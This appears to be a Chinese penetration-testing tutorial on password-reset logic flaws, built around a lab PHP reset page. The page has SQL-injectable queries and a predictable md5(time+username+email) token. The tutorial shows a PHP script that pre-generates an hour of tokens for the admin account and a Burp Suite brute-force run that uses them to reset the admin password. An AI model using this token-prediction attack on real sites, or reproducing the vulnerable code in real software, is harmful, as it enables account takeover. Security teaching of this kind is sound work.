







为了防止用户遗忘密码，大多数网站都提供了找回密码功能。常见的找回密码方式有：邮箱找回密码、根据密码保护问题找回密码、根据手机号码找回密码等。虽然这些方式都可以找回密码，但实现方式各不相同。无论是哪种密码找回方式，在找回密码时，除了自己的用户密码，如果还能找回其他用户的密码，就存在密码找回漏洞。

密码找回漏洞在逻辑漏洞中占了较大的比例。测试密码找回漏洞与其他逻辑漏洞的方法相同，其中必经的两个步骤是：熟悉业务流程（密码找回过程）与对流程中的HTTP请求分析。

```php
<?php
include 'init.php';
function create_pass($username,$email){
	$token=md5(time().$username.$email);
	return $token;
}

echo ' <meta charset="UTF-8">';
if($_GET['c']=='forget'){
	$username= trim($_POST['username']);
	$re=mysql_query("select * from member where username='{$username}'");
	$row = mysql_fetch_array($re);
	$_email = $row['email'];
	if($row){	
		echo "<form method='post' action='?c=email'>";
		echo "用户{$row['username']}存在  请输入用户的邮箱";
		echo "<input type='text' name='email'/>";
		echo "<input type='hidden' name='username' value='{$row['username']}'/>";
		echo "<input type='submit' value='发送key'/></form>";
	}	
}

if($_GET['c']=='email'){
	$username= trim($_POST['username']);
	$re=mysql_query("select * from member where username='{$username}'");
	$row = mysql_fetch_array($re);
	$email= trim($_POST['email']);
	if($email == $row['email']){
		$token=create_pass($row['username'],$row['email']);
		mysql_query("update member set token='{$token}' where id='{$row['id']}'");
		echo "密码已发送到邮件，请登录邮箱修改密码";
	}else{
		echo "邮箱错误 请填写对应的邮箱";
	}
}

if($_GET['c']=='send'){
	$token = trim($_GET['token']);
	$re = mysql_query("select * from member where token='{$token}'");
	$row = mysql_fetch_array($re);
	if($row){
		echo "<form method='post' action='?c=pass'>";
		echo "输入你要修改的密码 ";
		echo "<input type='text' name='password'/>";
		echo "<input type='hidden' name='token' value='{$token}'/>";
		echo "<input type='submit' value='修改密码'>";
	}
}

if($_GET['c']=='pass'){
	$token = $_POST['token'];
	$password =md5(trim($_POST['password']));
	$re = mysql_query("update member set password ='{$password}' where token = '{$token}'");
	if($re){
		echo "修改成功";
	}else{
		echo "修改失败";	
	}
}

if($_GET['c']=='login'){
	echo '<form method="post" action="?c=main">';
	echo '用户 <input type="text" name="username"><br>';
	echo '密码 <input type="password" name="password"><br>';
	echo '<input type="submit" value="登录">';
	echo '</form>';	
}

if($_GET['c']=='main'){
	$username = $_POST['username'];
	$password = md5($_POST['password']);
	$re = mysql_query("select * from member where username='{$username}' and password='{$password}'");
	$row = mysql_fetch_array($re);
	if($row){
		echo "{$row['username']} 登录成功";
	}else{
			echo "帐号或密码失败";
		}	
}

if(empty($_GET['c'])){
echo '<form method="post" action="?c=forget">';
echo '<label>请输入你要查询的用户</label>';
echo '<input type="text" name="username">';
echo '<input type="submit" value="找回密码">';
echo '</form>';
}
?>
```

需要更改用户是admin  [moon@moonsec.com](mailto:moon@moonsec.com) 发邮件 邮件就有

http://www.webtester.com/forget.php?c=send&token=f77a04b47d4b859b4119cdea9b9a01f9

访问链接修改密码

http://www.webtester.com/forget.php?c=login 

主要看这个函数是否可以预测

```php
function create_pass($username,$email){
	$token=md5(time().$username.$email);
	return $token;
}
```

time是每一秒都会变

```http
https://tool.lu/timestamp/
```

 

md5(当前时间戳 +用户名)  生成 token 原理

当前面条件 都通过之后就可以 生成token

我们在提交key的之前 生成一分钟或者一个小时以内的token 用脚本去访问每一个链接

http://www.webtester.com/forget.php?c=send&token=f77a04b47d4b859b4119cdea9b9a01f9

假如存在的token就可以修改密码。

这个是根据这套程序生成一小时的token

```php
<?php
function create_pass($username,$email){
	$token=md5(time().$username.$email);
	return $token;
}

for($i=1;$i<=3600;$i++){
	$timex= create_pass('admin','moon@moonsec.com');
	write_file($timex."\n");
	echo $i."\r\n";
	sleep(1);	
}

function write_file($c){
	fwrite(fopen("time.txt", "a+"),$c);
}
?>
```

在php里面运行脚本php time.php

提交admin和 [moon@moonsec.com](mailto:moon@moonsec.com)邮箱 发送key

 

用brupsuite 抓包修改变量 选择payload 读入文件time.txt

 

 

成功的token

 

访问穷举出来的 token访问url

http://www.webtester.com/forget.php?c=send&token=f77a04b47d4b859b4119cdea9b9a01f9



修改成功之后登录



本地生成token出错的原因 是 程序没有设置地区时间时间戳就会不一样 导致出错。
